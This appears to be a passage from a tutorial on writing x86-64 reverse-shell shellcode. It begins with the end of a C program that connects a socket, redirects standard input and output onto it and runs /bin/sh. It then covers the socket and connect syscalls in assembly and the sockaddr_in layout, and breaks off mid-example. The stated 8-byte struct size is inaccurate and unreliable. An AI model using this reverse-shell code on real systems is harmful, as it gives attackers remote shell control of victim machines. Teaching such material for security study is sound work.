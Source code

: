 ```c title="socket.c"
        return 1;
    }
    puts("Connected");

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    execve("/bin/sh\0", NULL, NULL);
    return 0;
}
```

### socket

`int socket (int domain, int type, int protocol)`

-   domain: 2 for IPv4 socket
-   type: 1 for standard socket
-   protocol: 0 for TCP

The file descriptor of the created socket is returned in the rax register.

```as
mov rax, 0x29
mov rdi, 2
mov rsi, 1
mov rdx, 0
syscall

mov rbx, rax    ; returned value is saved inside rbx, this is important for the next examples
```

### connect

`int connect(int socket, const struct sockaddr *address, socklen_t address_len);`

```c
struct in_addr {
    unsigned long s_addr;       /* Internet address (32 bits) */
}

struct sockaddr_in {
    unsigned short sin_family;  /* Internet protocol (AF_INET) */
    unsigned short sin_port;    /* Address port (16 bits) */
    struct in_addr sin_addr;    /* Internet address (32 bits) */
    char sin_zero[8];           /* Not used */
}
```

The struct is composed by `ip + hton(port) + 2 (IF_NET type of socket)` with a size of 8 bytes (4 + 2 + 2).

For example, considering the ip 127.0.0.1, the port 1337 and type 2:
